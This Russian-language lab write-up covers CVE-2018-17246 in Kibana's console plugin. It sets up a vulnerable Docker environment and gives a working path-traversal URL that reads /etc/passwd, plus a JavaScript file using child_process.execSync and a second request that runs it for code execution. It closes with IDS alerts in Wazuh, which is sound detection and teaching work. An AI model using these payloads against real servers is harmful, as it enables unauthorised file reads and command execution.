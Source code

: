 # CVE-2018-17246

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 6.4.3 и 5.6.13 содержат ошибку включения произвольных файлов в плагине консоли. Злоумышленник, имеющий доступ к API консоли Kibana, может отправить запрос, который попытается выполнить код JavaScript. Это может привести к тому, что злоумышленник сможет выполнять произвольные команды с разрешениями процесса Kibana на хосте.

### Эксплуатация уязвимости&#x20;

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601 будет доступна панель Kibana

Введите следующий URL-адрес в вашу поисковую строку:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

При отправке этого запроса возникает 500-я ошибка, но мы можем увидеть исключение в логах контейнера (`docker compose logs`)

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости запишите следующий код в файл на уязвимом хосте&#x20;

```
docker compose exec kibana bash
echo "export default {asJson: function() {return require(\"child_process\").execSync(\"id\").toString()}}" > /tmp/vulhub.js
```

После отправки следующего  GET-запроса в ответе мы получим результат выполнения команды id на целевой машине:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/vulhub.js
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
